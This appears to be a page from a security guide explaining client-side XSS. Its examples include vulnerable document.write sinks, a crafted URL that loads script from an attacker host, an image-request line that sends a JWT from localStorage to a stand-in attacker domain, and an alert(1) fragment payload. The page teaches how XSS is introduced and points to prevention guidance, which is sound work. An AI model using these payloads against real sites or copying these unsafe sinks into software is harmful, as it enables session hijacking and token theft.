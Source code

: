 Client XSS
==========

Per definition "_Client XSS occurs when untrusted user supplied data is used to
update the DOM with an unsafe JavaScript call. A JavaScript call is considered
unsafe if it can be used to introduce valid JavaScript into the DOM._".
([source][1]).

The "untrusted user supplied data" has multiple sources like the DOM itself,
the URL e.g a query string parameter or the fragment or even from a server
request. Client side store locations like Cookies or Local Storage are also
potential sources of XSS payloads.

As an example consider the following script used to display ads on a website:

```JavaScript
document.write('<script type="text/JavaScript" src="' + (location.search.split('req=')[1] || '') + '"></scr'+'ipt>');
```

Since the `location.search.split` is not properly escaped, the `req` parameter
can be manipulated by an attacker to retrieve malicious JavaScript from a
location he is in control of, injecting it into the web page the victim is
visiting.

```
http://www.example.com/?req=https://www.attacker.com/poc/xss.js
```

To perform this attack, an attacker crafts an URL like the one above, sending it
to the victim. Upon clicking it the `https://www.attacker.com/poc/xss.js` script
is requested by the Ad snippet making it run in the `www.example.com` context.

This could be the initial step of a [Session Hijacking attack][2] as
attacker's script may have access to the session cookie (if it was not properly
set as `httpOnly`) or to the `localStorage` where a JSON Web Token (JWT) may be
found

```javascript
(new Image).src = '//attacer.com?jwt='+localStorage.get('JWT');
```

The sample above is a common example of how to exfiltrate data, bypassing the
[Same Origin Policy][3] as the `JWT` value read from `localStorage` is sent as
part of the URL from where an image was supposed to be loaded.


As said before the "untrusted data" sources are vary.
Some client-side frameworks use the URL fragment to identify resources or
application states: although the fragment is part of the URL it is not sent to
the sever.

The following script is very simple and for demonstration purposes only, but
encompasses the concept of URL fragment as source of untrusted data. Assuming
that the following script is somewhere in the target page

```html
<script>
x=location.hash.slice(1);
document.write(x)
</script>
```

then the following URL would trigger the famous `alert(1)` modal.

```
http://example.com/fragment.html#<script>alert(1)</script>
```

To know how to prevent XSS in general please follow to [How to prevent XSS
section][4].

[1]: https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting#Client_XSS
[2]: https://www.owasp.org/index.php/Session_hijacking_attack
[3]: https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy
[4]: how-to-prevent.md